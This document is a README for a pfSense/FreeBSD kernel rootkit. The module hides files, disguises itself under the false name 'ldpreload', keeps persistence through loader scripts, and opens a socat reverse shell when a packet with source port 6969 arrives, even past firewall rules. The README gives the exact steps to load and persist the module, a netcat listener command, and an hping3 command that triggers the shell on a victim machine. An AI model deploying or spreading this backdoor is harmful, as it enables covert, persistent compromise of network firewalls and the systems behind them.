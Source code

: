 First off, I would like to give a massive thank you to my friend Sharad(mineo333) for helping 
create the functionality of forking a process and running kern_execve() in the child.  This is the
core of the entire rootkit and what allows for code execution upon the condition of a packet
with a certain source port being seen.  I could not have done this without his help.

Secondly, the functionality that hides file is completely 1 for 1 ripped from BlueDragonSecurity's(bluedragonsecurity) repo bds_freebsd.  Big thanks for making this.

An important note, the current .ko files are only usable for pfSense 2.7.2 CE.
You to compile these yourself, you must do it within a pfSense box, NOT a compatable freeBSD kernel.
To be able to compile within pfSense you must follow the steps outlined in "extra/how_to_setup_pfsense_to_compile.txt".

The "extra" directory holds the C code and Makefile to create an LKM that will eternally just print's a face, normal input will still work on the terminal it jsut scrolls really fast, you can also just unload it to make it stop. To load it you must run
kldload /boot/modules/.evil/evil.ko

ldpreload/LD_PRELOAD is a false name used for the rootkit since this LKM does not exist within pfSense but appears normal.

This LKM/Rootkit has persistance, from ldpreload.sh, which is loaded via load_and_setup.sh.

To load the Rootkit you must clone this directroy, cd into it, chmod +x load_and_setup.sh, and run ./load_and_setup.sh.
You will be popped out into a ghost /Apekit-tooshit directory so run cd / after the script is done.

What does it do?
This Rootkit registers a custom hook to the top of the IPv4 head within pfSense and establishes reverse shells by forking the process that runs cat and running the reverse shell command in that fork with execve.
This is super duper mega awesome because even if firewall rules are made against the attacker IP, ports, anything.  The registered hook will still receive the packet and make a reverse shell.
We use socat to make the reverse shell since FreeBSD's native version of nc (netcat) doesn't allow for reverse shells.

To get a reverse shell!

Run "nc -lvnp 7000" on the attaking machine in a terminal.
In another terminal, send packets that will pop open a reverse shell with the command
"sudo hping3 -S -p <destination port> -s 6969 <ip of victim box>"
Once you see the reverse shell connect, run control + c in the terminal that is sending the packets (you do not need to keep sending more traffic).
If the reverse shell doesn't connect after about 5 packets then run control + c in the terminal that is sending packets and re-run the command, packet filtering is finickey and sometimes you need to try a couple times.

